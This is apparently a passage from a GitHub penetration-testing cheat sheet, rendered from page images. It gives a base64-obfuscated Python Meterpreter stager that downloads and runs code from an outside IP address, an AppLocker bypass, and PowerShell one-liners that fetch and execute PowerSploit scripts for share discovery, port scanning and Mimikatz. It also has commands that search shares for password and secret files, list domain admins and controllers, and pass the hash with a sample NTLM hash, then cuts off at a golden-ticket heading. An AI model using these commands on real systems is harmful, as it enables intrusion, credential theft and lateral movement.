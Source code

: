 ```use payload/python/meterpreter/reverse_http``` ![proxy2](https://user-images.githubusercontent.com/7115563/33836652-3d9c9624-de8a-11e7-9869-e18c5a28ebd7.png) ```python -c "import base64,sys;exec(base64.b64decode({2:str,3:lambda b:bytes(b,'UTF-8')}[sys.version_info[0]]('aW1wb3J0IHN5cwp2aT1zeXMudmVyc2lvbl9pbmZvCnVsPV9faW1wb3J0X18oezI6J3VybGxpYjInLDM6J3VybGxpYi5yZXF1ZXN0J31bdmlbMF1dLGZyb21saXN0PVsnYnVpbGRfb3BlbmVyJywnUHJveHlIYW5kbGVyJ10pCmhzPVtdCmhzLmFwcGVuZCh1bC5Qcm94eUhhbmRsZXIoeydodHRwJzonaHR0cDovLzE5Mi4xNjguMTA3LjIzMjo4MDgwJ30pKQpvPXVsLmJ1aWxkX29wZW5lcigqaHMpCm8uYWRkaGVhZGVycz1bKCdVc2VyLUFnZW50JywnTW96aWxsYS81LjAgKFdpbmRvd3MgTlQgNi4xOyBUcmlkZW50LzcuMDsgcnY6MTEuMCkgbGlrZSBHZWNrbycpXQpleGVjKG8ub3BlbignaHR0cDovLzE3OC42Mi41OC4zNTo4MC9qOTkzQScpLnJlYWQoKSkK')))"``` Finally we set up the handler: ![proxy3](https://user-images.githubusercontent.com/7115563/33836552-fd3204ac-de89-11e7-940c-71c8ab321bf7.png)
### Windows

**Bypass Applocker** **1\. rundll32** ```rundll32.exe PowerShdll.dll,main``` ![applocker](https://user-images.githubusercontent.com/7115563/34455568-dfe7d7c6-ed81-11e7-9869-de2d4e92f3aa.png) Reference: https://github.com/p3nt4/PowerShdll **2\. Alternative powershell files** ![applocker2](https://user-images.githubusercontent.com/7115563/34455569-e0136c6a-ed81-11e7-9b0e-127ae9d395e0.png) ```C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell_ise``` **Runas Powershell** ```Start-Process powershell.exe -Verb runas``` ```Start-Process powershell.exe -Credential <user>``` **View Shares With Permissions**

<pre>powershell.exe -exec bypass -Command "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1');Invoke-ShareFinder -CheckShareAccess"</pre>

![image](https://user-images.githubusercontent.com/7115563/34455620-34f292b4-ed83-11e7-92b0-3b8dd387146f.png) **View files that contain certain words recursively**

<pre> ls -Path \\SVHOST1.LAZULI.CORP\tmp$ -Include "*pass*","*
admin*","*secret*" -Recurse </pre>

![image](https://user-images.githubusercontent.com/7115563/34455641-aa03adf4-ed83-11e7-8333-a69366714921.png) **View files which name contains certain words recursively**

<pre>ls -Path \\SVHOST1.LAZULI.CORP -Include "*pass*","*admin*","*secret*" -Recurse</pre>

![image](https://user-images.githubusercontent.com/7115563/34455649-dcc941ea-ed83-11e7-9428-a702f254e807.png) **Connect to MSSQL Database**

<pre>IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/michaellwest/PowerShell-Modules/master/CorpApps/Invoke-SqlCommand.ps1')

Invoke-SqlCommand -Server 172.11.14.89 -Database master -Username sa -Password <password>-Query "exec sp_databases"</password> </pre>

**Port Scanning**

<pre>IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/Invoke-Portscan.ps1')

Invoke-Portscan -Hosts <ip>  -TopPorts 50</ip></pre>

![image](https://user-images.githubusercontent.com/7115563/34455679-6e630230-ed84-11e7-995e-2eea1a6fc8dc.png) **View Domain Admins**

<pre> net groups /domain "Domain Admins"</pre>

![image](https://user-images.githubusercontent.com/7115563/34455690-9e648d78-ed84-11e7-9a84-9b335530a31e.png) **View Domain Controlers**

<pre>nltest /dclist: <domain></domain> </pre>

![image](https://user-images.githubusercontent.com/7115563/34455698-d1504074-ed84-11e7-85ad-c4bb196c9d44.png) **Invoke Mimikatz**

<pre>IEX (New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1');Invoke-Mimikatz</pre>

**Pass The Hash with Mimikatz**

<pre> Invoke-Mimikatz -Command '"sekurlsa::pth /user:adm_maint /ntlm:cbe55f143fcb6d4687583af520123b89 /domain:lazuli"'</pre>

**Generate Golden Ticket (Domain Admin Required)**
```